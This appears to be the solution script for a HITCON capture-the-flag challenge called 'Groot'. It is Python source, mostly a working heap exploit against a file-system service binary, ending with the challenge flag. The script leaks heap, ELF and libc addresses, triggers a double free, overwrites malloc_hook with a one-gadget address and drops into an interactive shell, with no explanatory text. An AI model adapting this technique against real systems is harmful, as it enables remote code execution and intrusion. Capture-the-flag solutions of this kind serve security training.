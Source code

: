 ```python
heap_base = u64(leak) - 0x12d20
print 'Heap base: ' + hex(heap_base)
cdDir       (conn, 'A' * 0x30)
cdDir       (conn, 'A' * 0x30)
cdDir       (conn, 'A' * 0x30)
cdDir       (conn, 'AAAA')
cdDir       (conn, 'AAAA')
cdDir       (conn, 'AAAA')
cdDir       (conn, 'AAAA')
cdDir       (conn, 'AAAA')
cdDir       (conn, '..')
makeDir     (conn, 'groot2')
cdDir       (conn, 'groot2')


### Workspace should be clear now
createFile  (conn, 'file1', 'file1')
createFile  (conn, 'file2', 'file2')
createFile  (conn, p64(heap_base + OFFSET_FILENAME4), 'file3')
createFile  (conn, p64(heap_base + OFFSET_FILECONTENT5), 'file4') 
createFile  (conn, 'file5', p64(heap_base + OFFSET_FILECONTENT5))
makeDir     (conn, 'directory1')
cdDir       (conn, 'directory1')
createFile  (conn, 'file1', 'file1')
cdDir       (conn, '..')
rm          (conn, 'file1')
rm          (conn, 'directory1')
rm          (conn, 'file2')
cdDir       (conn, 'A' * 0x30)
makeDir     (conn, 'directory1')
rm          (conn, 'directory1')

# Double free performed
cdDir       (conn, p64(heap_base + OFFSET_FILENAME3))
cdDir       (conn, p64(heap_base + OFFSET_FILENAME3))
cdDir       (conn, p64(heap_base + OFFSET_FILENAME3))
cdDir       (conn, p64(heap_base + OFFSET_FILENAME3))
cdDir       (conn, p64(heap_base + ELF_POSITION))
leak = ls   (conn, '')
leak = leak.split('\x1b\x5b\x30\x6d\x09')[3]
leak = leak.ljust(8, '\x00')
elf_base = u64(leak) - ELF_OFFSET
print 'ELF base: ' + hex(elf_base)
cdDir       (conn, p64(elf_base + SCHK_OFFSET_GOT))
cdDir       (conn, p64(elf_base + SCHK_OFFSET_GOT))
leak = ls   (conn, '')
leak = leak.split('\x1b\x5b\x30\x6d\x09')[2]
leak = leak.ljust(8, '\x00')
libc_base = u64(leak) - SCHK_OFFSET
print 'libc base: ' + hex(libc_base)
cdDir       (conn, p64(libc_base + MALLOC_HOOK_OFFSET))
cdDir       (conn, p64(libc_base + MALLOC_HOOK_OFFSET))
cdDir       (conn, p64(libc_base + MAGIC))
cdDir       (conn, p64(libc_base + MAGIC))
cdDir       (conn, p64(libc_base + MAGIC))
createFile  (conn, "I_AM_GROOT!!!", "I_AM_GROOT!!!")
conn.interactive()
```

`hitcon{Groot_knows_heap_exploitation:evergreen_tree:}`